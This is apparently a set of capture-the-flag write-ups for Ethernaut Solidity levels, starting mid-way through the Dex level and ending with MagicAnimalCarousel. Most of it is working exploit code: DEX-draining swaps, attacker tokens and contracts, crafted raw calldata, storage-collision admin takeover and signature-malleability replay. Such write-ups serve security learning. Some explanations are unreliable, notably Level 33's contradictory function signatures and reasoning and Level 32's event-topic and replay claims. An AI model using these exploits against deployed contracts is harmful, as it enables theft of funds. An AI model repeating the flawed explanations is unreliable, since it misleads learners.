await contract.swap(t2, t1, 20)   // player: 24 t1, 0 t2
await contract.swap(t1, t2, 24)   // player: 0 t1, 30 t2
await contract.swap(t2, t1, 30)   // player: 41 t1, 0 t2
await contract.swap(t1, t2, 41)   // player: 0 t1, 65 t2
await contract.swap(t2, t1, 45)   // player: 110 t1, 20 t2
```

5. **Verify token1 is drained from Dex:**
```js
await contract.balanceOf(t1, instance).then(v => v.toString())
// Output: '0'
```

### Level Completed
Successfully drained all of `token1` from the Dex by abusing the flawed swap pricing logic. Challenge completed.



# Ethernaut Level 23: Dex Two 

### Strategy

Unlike the previous DEX level, **DexTwo allows swapping *any* token**, not just the two official tokens (`token1` and `token2`). This is a critical flaw.

We exploit this by creating our **own ERC-20 token (EvilToken)** and trick the DEX into thinking it’s a valid swap pair. Because the `swap()` logic only relies on balance ratios and doesn’t restrict token types, we can inflate the EVL/`token1` and EVL/`token2` price ratio and **drain the DEX**.

---

### Vulnerability

```solidity
function swap(address from, address to, uint256 amount) public {
    ...
    // No restriction that 'from' and 'to' must be token1/token2
    uint256 swapAmount = getSwapAmount(from, to, amount);
    ...
}
```

This allows a **malicious token** to be used in swaps.

---

### Exploit Steps

#### 1. Deploy EvilToken

Deploy the following contract in Remix or similar:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract EvilToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("EvilToken", "EVL") {
        _mint(msg.sender, initialSupply);
    }
}
```

Mint: `400` EVL to yourself (player).

---

#### 2. Send 100 EVL to DexTwo

```js
await evilToken.transfer(contract.address, 100);
```

This sets a 1:1 ratio between EVL and `token1` (and later `token2`).

---

#### 3. Approve DexTwo to use 300 EVL

```js
await evilToken.approve(contract.address, 300);
```

---

#### 4. Check token addresses

```js
const t1 = await contract.token1();
const t2 = await contract.token2();
const evl = evilToken.address;
```

---

#### 5. Swap 100 EVL for `token1`

```js
await contract.swap(evl, t1, 100);
```

Drains all 100 of `token1` from the DEX.

Verify:

```js
(await contract.balanceOf(t1, contract.address)).toString(); // should be '0'
```

---

#### 6. Swap 200 EVL for `token2`

```js
await contract.swap(evl, t2, 200);
```

Drains all 100 of `token2` from the DEX.

Verify:

```js
(await contract.balanceOf(t2, contract.address)).toString(); // should be '0'
```

---

### Final Balances

|         | Dex Token1 | Dex Token2 | Dex EVL | Player Token1 | Player Token2 | Player EVL |
|---------|------------|------------|---------|----------------|----------------|-------------|
| Start   | 100        | 100        | 0       | 10             | 10             | 400         |
| Mid     | 0          | 100        | 200     | 110            | 10             | 200         |
| Final   | 0          | 0          | 400     | 110            | 110            | 0           |

---

### Level Completed



# Ethernaut Level 24: Puzzle Wallet

### Strategy

In this challenge, we need to hijack the **PuzzleProxy** contract by exploiting a **storage collision** between the **proxy contract (PuzzleProxy)** and the **logic contract (PuzzleWallet)**. This allows us to control the admin role and manipulate the contract’s state. By leveraging **delegatecall** and **multicall**, we can achieve the goal of becoming the admin and draining the contract’s balance.

---

### Vulnerability

The main vulnerability lies in the use of the **delegatecall** function. When the proxy contract (PuzzleProxy) delegates calls to the logic contract (PuzzleWallet), it uses the **context of the proxy contract**. This means that any state changes made in the logic contract (PuzzleWallet) will actually modify the storage of the proxy contract (PuzzleProxy).

Because of this, **storage slots** between the two contracts are **shared**, leading to a **storage collision**. Specifically, the following storage slots collide:

| Slot | PuzzleWallet | PuzzleProxy |
|------|--------------|-------------|
| 0    | owner        | pendingAdmin|
| 1    | maxBalance   | admin       |
| ...  | ...          | ...         |

This allows us to **manipulate values in PuzzleWallet** by modifying the storage of PuzzleProxy. By becoming the **admin** of the proxy, we can control the contract.

---

### Exploit Steps

#### 1. Propose New Admin

We begin by exploiting the `proposeNewAdmin()` method in **PuzzleProxy**. This method allows us to **set the pending admin** to any address. Since **storage slot 0** in both contracts refers to the **owner** and **pendingAdmin**, setting the **pendingAdmin** in the proxy contract to the player’s address will automatically make the player the **owner** in PuzzleWallet.

**Propose the player as the new admin**:

```js
const functionSignature = {
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        { type: 'address', name: '_newAdmin' }
    ]
};

const params = [player];
const data = web3.eth.abi.encodeFunctionCall(functionSignature, params);
await web3.eth.sendTransaction({ from: player, to: proxyAddress, data });
```

At this point, the player is now the **owner** of the contract. We can verify this by checking the **owner** of PuzzleWallet:

```js
await contract.owner() === player;  // Output: true
```

---

#### 2. Add Player to Whitelist

Now that the player is the **owner**, we can **whitelist** the player’s address to allow them to access the `onlyWhitelisted` functions:

```js
await contract.addToWhitelist(player);
```

---

#### 3. Manipulate maxBalance and Become Admin

Next, we exploit the **storage collision** between `admin` and `maxBalance` in **PuzzleWallet** and **PuzzleProxy**. By calling the `setMaxBalance()` method, we can **set the player’s address** to the `admin` variable, giving us full control over the proxy.

Before we can call `setMaxBalance()`, we need to **empty the contract's balance**. To do this, we can exploit the `multicall()` function, which lets us call multiple methods in one transaction.

1. **Check contract balance**:

```js
await getBalance(contract.address);  // Output: 0.001 ETH
```

2. **Create multicall data**:

We need to call `deposit()` multiple times within the same transaction. However, `deposit()` can only be called **once** in a `multicall`. To bypass this, we can create a **nested multicall** structure.

```js
// Deposit method data
const depositData = await contract.methods["deposit()"].request().then(v => v.data);

// Nested multicall data
const multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data);

// Send the transaction with 0.001 ETH
await contract.multicall([multicallData, multicallData], { value: toWei('0.001') });
```

Now, the **player’s balance** will be **0.002 ETH**, while the **contract’s balance** will still be 0.001 ETH. This discrepancy allows the player to **drain the contract’s balance**.

3. **Withdraw balance**:

```js
await contract.execute(player, toWei('0.002'), 0x0);
```

---

#### 4. Set maxBalance and Hijack Admin

Now that we’ve drained the contract’s balance and **manipulated the accounting**, we can set the **maxBalance** to the player’s address, which will also set the **admin** to the player’s address.

```js
await contract.setMaxBalance(player);
```

At this point, the player is the **admin** of the proxy, and they can control the contract.

---

### Level Completed




# Ethernaut Level 27: Good Samaritan

### Strategy

This challenge exploits **custom error handling and `try/catch` mechanics in Solidity 0.8+**. 

The key vulnerability lies in the `GoodSamaritan.requestDonation()` function, which **only triggers the full wallet drain (`transferRemainder`) if a specific error `NotEnoughBalance()` is thrown.**

We can abuse this logic by **pretending to receive the donation**, and **reverting with the correct error signature (`NotEnoughBalance()`)** during the callback. This tricks the contract into calling `wallet.transferRemainder()` and draining the entire wallet into our contract.

---

### Vulnerability

```solidity
catch (bytes memory err) {
    if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
        wallet.transferRemainder(msg.sender);
    }
}
```

This code **blindly matches error messages** and doesn’t care *who* sent them. If we revert with the same error during a `notify()` callback, it will **assume the wallet is empty and transfer everything** to us.

---

### Exploit Steps

#### 1. Understand the flow

- `requestDonation()` tries to send you 10 coins using `wallet.donate10(msg.sender)`.
- If you're a **contract**, `Coin.transfer()` will **call your `notify()` function**.
- If your `notify()` throws the **`NotEnoughBalance()`** error, it triggers a catch block which **transfers the wallet's remaining coins to you**.

---

#### 2. Deploy the Attack Contract

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface IGoodSamaritan {
  function requestDonation() external returns (bool enoughBalance);
}

contract Attack {
  // Must match the Wallet's custom error
  error NotEnoughBalance();

  // Call the vulnerable function
  function pwn(address _addr) external {
    IGoodSamaritan(_addr).requestDonation();
  }

  // This function gets called during the donation
  function notify(uint256 amount) external pure {
    if (amount == 10) {
        revert NotEnoughBalance(); // Trigger catch block in GoodSamaritan
    }
  }
}
```

---

#### 3. Execute the Attack

In Remix or your console:

```js
await attack.pwn("INSTANCE_ADDRESS_HERE")
```

This will:
- Trigger `requestDonation()`
- Call `donate10()`
- Inside `transfer()`, call your `notify()` function
- `notify()` reverts with `NotEnoughBalance()`
- The error gets caught by the catch block
- Wallet sends **all** its remaining balance to you!

### Concepts Used
- Custom Errors (`error NotEnoughBalance()`)
- `try/catch` with `bytes memory err`
- ABI error signature matching
- ERC-20 token callback via `notify()`

---

### Level Completed



# Ethernaut Level 28: Gatekeeper Three

### Strategy Overview

The challenge has 3 gates to bypass:

1. **Gate One**: I had to call `enter()` from a contract where `msg.sender == owner`, but `tx.origin != owner`.
2. **Gate Two**: I needed to pass a password check that was based on `block.timestamp` at the time the `SimpleTrick` contract was deployed.
3. **Gate Three**: I had to ensure the contract had more than 0.001 ether AND that `.send(0.001 ether)` to the `owner` failed — which happens if the owner is a contract with no `receive()` or `fallback`.

---

#### Deployed an Exploit Contract in Remix

#### Executed `Exploit()` With ETH

In Remix:
- After deployment, I selected the deployed exploit contract,
- I called the `Exploit()` function and attached **a bit more than 0.001 ETH** (I used `0.0011` ether),
- That single call did everything:
  - Called `construct0r()` to become the `owner`,
  - Called `createTrick()` to deploy `SimpleTrick`,
  - Passed the password check using `block.timestamp`,
  - Sent ETH to the GatekeeperThree contract to pass the balance check,
  - Caused `.send()` to fail because my exploit contract had no `receive()` or `fallback`,
  - Finally, it called `enter()` successfully.

---

### Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGateKeeperThree {
    function enter() external;
    function construct0r() external;
    function getAllowance(uint256 _password) external;
    function createTrick() external;
}

contract ExploitGateKeeperThree {
    IGateKeeperThree gateKeeperThree;

    constructor(address _addr) {
        gateKeeperThree = IGateKeeperThree(_addr);
    }

    function Exploit() public payable {
        gateKeeperThree.construct0r();                      // Become owner
        gateKeeperThree.createTrick();                      // Deploy SimpleTrick
        gateKeeperThree.getAllowance(block.timestamp);      // Flip allowEntrance
        address(gateKeeperThree).call{value:1000000000000001}(""); // Fund GatekeeperThree
        gateKeeperThree.enter();                            // Call enter
    }
}
```

Expolit contract does not have any `receive()` or `fallback()` function, so `.send()` to me (as the owner) failed — which is exactly what `gateThree` needed.

---

### Level Completed



# Ethernaut Level 29: **Switch**

### Strategy

The goal is to **flip the switch** (i.e., set `switchOn = true`). But the `turnSwitchOn()` function is protected by two layers of defense:

1. **`onlyThis` modifier**: Requires that only the contract itself can call `turnSwitchOn()` (i.e., `msg.sender == address(this)`).
2. You can only reach `turnSwitchOn()` through `flipSwitch(bytes memory _data)`, but that has an `onlyOff` modifier that enforces:
   - The calldata must contain the function selector of `turnSwitchOff()` at a specific offset (`calldata[68:72]`).

So, the **challenge is to trick `onlyOff`** into thinking we're calling `turnSwitchOff()`, but actually **trigger `turnSwitchOn()`** through low-level call forwarding.

---

### Vulnerability Summary

- The contract allows low-level `call()` with arbitrary calldata via `flipSwitch()`.
- The `onlyOff` modifier only inspects 4 bytes of the calldata at a fixed offset.
- We can **fake that offset to pass the check**, and still encode an internal call to `turnSwitchOn()` in `_data`.

---

### Exploit Steps

#### 1. Prepare custom crafted calldata

The function we are calling is:

```solidity
flipSwitch(bytes memory _data)
```

We need:
- First 4 bytes: selector of `flipSwitch(bytes)`
- ABI-encoded `_data`: a call to `turnSwitchOn()`
- Bytes at offset 68 (calldata[68:72]): exactly equal to `bytes4(keccak256("turnSwitchOff()"))` → `0x606e1500`

```js
const bypass = '0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000';
```

---

#### 2. Send transaction with the bypass data

I used browser console (via MetaMask and Web3) to send this raw transaction:

```js
await ethereum.request({
  method: 'eth_sendTransaction',
  params: [{
    from: (await ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: instance, // contract address from Ethernaut
    data: bypass
  }]
});
```

---

#### 3. Confirm switch is on

Check the contract state:

```js
await contract.switchOn(); // returns true 
```

---

### Final Notes

This challenge was about **precise manipulation of calldata and function selectors**. It taught how Solidity's ABI encoding works under the hood and how raw bytecode can be used to **bypass superficial validation**.

### Level Completed



# Ethernaut Level 30: **Higher Order**

---

### Strategy

The objective is to become the **Commander** by successfully calling `claimLeadership()`. But that function only allows you to become the commander if `treasury > 255`.

The function that sets the treasury is `registerTreasury(uint8)`. A `uint8` can only hold values between `0` and `255`, so how can we possibly set `treasury > 255`?

The **loophole lies in the use of inline assembly** in `registerTreasury()`, which **loads the value directly from calldata** without actually decoding it as a `uint8`.

---

### Vulnerability Summary

```solidity
assembly {
    sstore(treasury_slot, calldataload(4))
}
```

- This line bypasses Solidity’s normal type checking.
- It loads **32 bytes** from calldata starting at offset 4 (where the function parameter would be).
- That raw value is directly stored into the `treasury` slot, regardless of its size.
- We can send **any 32-byte value**, even one much larger than 255.

---

### Exploit Steps

#### 1. Craft calldata for `registerTreasury(uint8)` with a huge value

We don’t care about actual type safety — the contract uses `calldataload(4)` directly. So send something like:

```js
const calldata = '0x'
  + '211c85ab' // function selector for registerTreasury(uint8)
  + 'ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'; // any value > 255
```

This sets `treasury` to a massive number.

#### 2. Send the transaction

Used browser console (via MetaMask and Web3) to send the calldata:

```js
await ethereum.request({
  method: 'eth_sendTransaction',
  params: [{
    from: (await ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: instance,
    data: calldata
  }]
});
```

#### 3. Claim leadership

```js
await contract.claimLeadership();
```

#### 4. Confirm you're the commander

```js
await contract.commander(); // returns your address 
```

---

### Level Completed



# Ethernaut Level 32: **Impersonator**

---

### Strategy

The goal is to **bypass ECDSA signature validation** and set the controller of the lock to anyone you want (e.g., `address(0)`), effectively compromising the lock system and allowing *anyone* to open the door.

This challenge is based on the **vulnerability in ECDSA signature malleability**: for every valid `(r, s)` signature, there is another valid `(r, -s mod n)` signature that verifies to the same signer. If the signature validation doesn’t enforce `s` to be in the lower half of the secp256k1 curve order, it can be abused to replay previously used signatures with `new_s`, thus bypassing the `usedSignatures` check.

---

### Vulnerability Summary

```solidity
// s malleability not handled
function _isValidSignature(uint8 v, bytes32 r, bytes32 s) internal returns (address) {
    address _address = ecrecover(msgHash, v, r, s);
    require (_address == controller, InvalidController());

    bytes32 signatureHash = keccak256(abi.encode([uint256(r), uint256(s), uint256(v)]));
    require (!usedSignatures[signatureHash], SignatureAlreadyUsed());

    usedSignatures[signatureHash] = true;

    return _address;
}
```

- The system **does not enforce low `s` values**, allowing **signature malleability** via `s' = n - s`.
- The **signature hash is based on (r, s, v)**. If we pass a valid but unused `(r, n - s)` with the same `v`, `ecrecover` still returns the correct controller.
- This allows **reusing already-used signatures** under a different `s`.

---

### Exploit Steps

#### 1. **Retrieve ECLocker Address**

To exploit the `Impersonator` contract, we first need to retrieve the **ECLocker** contract's address.

- After calling `deployNewLock()` in the `Impersonator` contract, you can **find the address of the `ECLocker`** on **Etherscan** by going to the **Logs** tab of the transaction.

- The `Impersonator` contract emits a **NewLock** event with the address of the deployed `ECLocker`. This event has the following signature:
  ```solidity
  event NewLock(address locker);
  ```

- In the logs, under **Topic 1**, you'll find the address of the deployed `ECLocker`.

For example, after deploying, you will see logs like:
```plaintext
topic[0]: 0x5c752bb3236b1cbcab285e75919a922aa3ab2723
topic[1]: 0x6f79f29ac0f241abbde3b5fa17a8abf56419e9c4
```
Here, the **ECLocker** contract's address is `0x6f79f29ac0f241abbde3b5fa17a8abf56419e9c4`, which you will use in the next step.

#### 2. Gather a known valid `(r, s, v)` signature

This can be derived from a real controller transaction or found in the deployed instance.

```js
// Given values (example)
v = 28;
r = 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91;
s = 0x78489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2;
```

#### 3. Compute `new_s = n - s`

Use secp256k1 curve order:

```solidity
n = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;
new_s = n - s;
```

#### 4. Call `changeController` using the `(r, new_s, v)` signature

```solidity
locker.changeController(v, r, bytes32(new_s), address(0));
```

This sets `controller = address(0)` (i.e., no controller).

#### 5. Open the lock as any address

Once `controller == address(0)`, anyone can pass the same (r, new_s, v) signature to call:

```solidity
locker.open(v, r, bytes32(new_s)); // succeeds for any sender!
```

---

### Exploit Contract

```solidity
contract Solution {
    ECLocker public locker;

    constructor(address _lockerAddress) {
        locker = ECLocker(_lockerAddress);
    }

    function run() public {
        uint8 v = 28;
        bytes32 r = 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91;
        bytes32 s = 0x78489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2;
        
        // Curve order of secp256k1
        uint256 n = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;
        uint256 new_s = n - uint256(s);

        locker.changeController(v, r, bytes32(new_s), address(0));
    }
}
```

---

### Remix Deployment

1. Deploy the `Solution` contract with the target ECLocker address.
2. Call `run()`.
3. Submit the instance after seeing success status on Etherscan.

---

### Level Completed




# Ethernaut Level 33: **MagicAnimalCarousel**

---

### Strategy

To complete this level, you must become a **contributor** by passing the checks in the `changeAnimal` function via the `contribute()` function, which does a `delegatecall` with raw calldata.

The challenge lies in **bypassing two conditions** inside `changeAnimal()`:
- `msg.sig` must match `changeAnimal(uint256,string)`.
- `crateId == 0x1337`.

Rather than crafting calldata manually, we can use the contract’s existing functions creatively by:
- Exploiting the way `changeAnimal()` interprets calldata.
- Injecting specially crafted bytes into a `string` parameter using Remix and our custom script.

---

### Vulnerability Summary

```solidity
function changeAnimal(uint256 crateId, string calldata name) external {
    require(msg.sig == bytes4(keccak256("changeAnimal(uint256,string)")));
    require(crateId == 0x1337);
    contributors[msg.sender] = true;
}
```

- The vulnerability is in how `changeAnimal()` interprets `crateId` and `name` from calldata.
- `msg.sig` must match the function selector.
- By using `abi.encodePacked(...)` to construct an abnormal string, we can **manipulate the underlying calldata**, bypassing Solidity's argument decoding.

---

### Exploit Steps

#### 1. Deploy a helper contract

In Remix, deploy the following helper contract :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface MagicAnimalCarousel {
    function setAnimalAndSpin(string calldata animal) external;
    function changeAnimal(string calldata animal, uint256 index) external;
}

contract RunTest {
    function run() public {
        address targetAddress = address(0xFa86Ff9D663e06Ac0a5598292458A13951f131ac);

        MagicAnimalCarousel carousel = MagicAnimalCarousel(targetAddress);

        // Crafting a malicious string that corrupts calldata layout
        string memory animal = string(abi.encodePacked(hex"10000000000000000000ffff"));

        // Sequence of contract calls to bypass internal checks
        carousel.setAnimalAndSpin("Pikachu"); // Optional, but part of logic flow
        carousel.changeAnimal(animal, 1);     // Triggers the contributor logic
        carousel.setAnimalAndSpin("Charmander"); // Completes interaction
    }
}
```

#### 2. Run the exploit

- Call `run()` in the deployed helper contract.
- Internally, `changeAnimal(animal, 1)` will:
  - Set `crateId` to `0x1337` by interpreting the malicious string in `animal`.
  - Satisfy the function selector check due to `delegatecall`.
  - Set `contributors[msg.sender] = true`.

#### 3. Verify contributor status

```js
await contract.contributors(player); // should return true
```

---

### Level Completed



